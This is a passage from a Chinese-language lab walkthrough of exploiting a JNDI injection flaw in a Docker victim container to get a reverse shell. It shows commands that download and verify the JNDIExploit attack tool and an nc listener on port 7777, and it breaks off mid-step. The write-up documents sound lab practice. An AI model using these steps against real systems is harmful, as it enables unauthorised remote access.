 
4. 接下来尝试利用漏洞进行 shell 反弹。首先在攻击者虚拟机中下载 JNDIExploit 工具并验证是否正确（可以看到校验和相同，证明下载包并未在途中被更改）

    ```
    # 获取zip包
    wget https://github.com/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip

    # 解压缩
    unzip JNDIExploit.v1.2.zip

    # 计算SHA-256校验和
    shasum -a 256 JNDIExploit-1.2-SNAPSHOT.jar
    # c96ce1de7f739575d86f2e558aeb97dc691077b31a1c510a3dabf096c827dfa8  JNDIExploit-1.2-SNAPSHOT.jar
    ```
    <div><img src="pic/下载并验证JNDIExploit.png" width=100%></div>

5. 利用漏洞进行 shell 反弹

    ```
    # victim 主机，检查漏洞容器已经正常启动
    docker ps

    # attacker 主机开启多个终端
    # 1.监听7777端口等待 shell 反弹
    nc -l -p 7777
